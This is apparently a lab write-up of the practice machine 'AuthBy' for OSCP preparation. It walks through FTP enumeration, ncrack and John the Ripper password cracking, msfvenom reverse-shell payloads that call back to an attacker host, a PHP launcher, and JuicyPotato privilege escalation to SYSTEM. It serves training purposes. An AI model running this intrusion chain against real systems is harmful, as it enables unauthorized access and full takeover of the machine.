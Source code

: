 ```yaml
---
title: AuthBy
date: 2024-02-20
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Intermediate
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.46
```
![nmap](./nmap.png)

Then, I will run a full port nmap scan
```
nmap -sC -sV -Pn --open -p- 192.168.229.46
```
![full-nmap](./full-nmap.png)

The full port scan reveals two extra ports, 242 and 3145.

## FTP - Port 21
From the nmap results, we can see that anonymous ftp login is allowed.
- use `anonymous` as the user and no password
- after logging in, check what users are available by looking into the accounts directory
```
ftp 192.168.229.46
```
![accounts](./accounts.png)

### Ncrack
Ncrack is a powerful open-source network authentication cracking tool. It's designed to help assess and strengthen the security of networks by identifying weak credentials. 
Ncrack supports various protocols such as SSH, RDP, FTP, Telnet, HTTP(S), and more, making it versatile for testing a wide range of systems. With its robust and flexible features, Ncrack is the perfect
option to try and crack any default passwords now that we have a list of usernames.

I created a usernames.txt file with the following entries
```
admin
backup
Offsec
```

Then, running the following command reveals valid default credentials
```
ncrack -U usernames.txt -P /SecLists-master/Passwords/Default-Credentials/default-passwords.txt ./passwords.txt
```
![ncrack](./ncrack.png)

Login to the ftp console as admin
- then, use the command `mget *` in ftp to download all the files for the admin user
- there are three files, `.htaccess`, `.htpasswd` and `index.php`
- looking at all the files, `.htpasswd` has a password for the user offsec that we can crack using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```

John successfully cracked the password for user offsec which is `elite`
- the password does not work for ftp login using username offsec, so we can try this credential for other services

## HTTP - Port 242
We can use the credentials `offsec:elite` to authenticate to the http
- using these credentials, we can run a gobuster scan with the `-U` and `-P` flags
```
gobuster dir -u http://192.168.229.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php -U offsec -P elite
```

The gobuster results show status code 200 for `index.php`, however, there aren't any other interesting results.

# Exploitation
We will be able to access files uploaded through admin user FTP. We can upload a reverse shell through FTP and then access it from the 
authenticated HTTP server

1. Create a msfvenom reverse shell for a Windows machine
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell.exe
```

2. Create a php file to run the reverse shell, otherwise, going to `/revshell.exe` will simply download the file
```
<?php
$exec = system('revshell.exe', $val)
?>
```

3. Now, log in as admin through FTP and use `mput` to upload the reverse shell and the run.php
![upload](./upload.png)

4. Start a nc listener with `nc -lnvp 1234`

5. Go to url `http://192.168.229.46/run.php` to trigger the php script that will run the reverse shell.
![foothold](./foothold.png)

We are able to get a foothold on the system as user livda\apache.

## Privilege Escalation
We can enumerate the system for useful information
```
whoami /all
```
![impersonate](./impersonate.png)

Also, get more detailed information on the system
![systeminfo](./systeminfo.png)

From the enumeration we can see that
- the `SeImpersonatePrivilege` is enabled
- the machine is running a Windows 2008 Server x86

We can use Juicy Potato found [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
- JuicyPotato requires a class ID (CLSID) which is unique to the operating system
- the website [here](https://ohpe.it/juicy-potato/CLSID/) helps us choose a CLSID, use the CLSID for Windows Server 2008 in this case

1. Clone the JuicyPotato.exe file and upload to the machine using admin FTP
2. Create another msfvenom reverse shell to use for juicy potato
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell2.exe
```
3. Upload the `revshell2.exe` using admin FTP
4. Run JuicyPotato using the first CLSID found on the website
```
Juicy.Potato.x86.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -l 1337 -p "C:\wamp\www\revshell2.exe"
```
![run](./run.png)
![result](./result.png)

The command works and we have a shell as NT Authority\System.

# Summary
Reconnaissance:
- Conducted Nmap scan to identify open ports and services
- Discovered an FTP server with anonymous login enabled
- Used Ncrack to verify default credentials, gaining access to the FTP console
- Obtained hashed passwords from the FTP server

Initial Access:
- Cracked hashed passwords using John the Ripper
- Accessed an HTTP service using compromised credentials
- Utilized Gobuster to enumerate directories, discovering a potential upload functionality

Exploitation:
- Uploaded a crafted reverse shell through FTP
- Triggered the execution of the reverse shell via a PHP script on the HTTP server, gaining initial access to the system

Privilege Escalation:
- Leveraged the SeImpersonatePrivilege privilege and system information obtained through enumeration
- Exploited a known CLSID vulnerability using Juicy Potato
- Executed Juicy Potato with the appropriate CLSID, resulting in escalated privileges to NT Authority\System

Join me for the next machine soon for more exciting challenges and security insights!

+20 points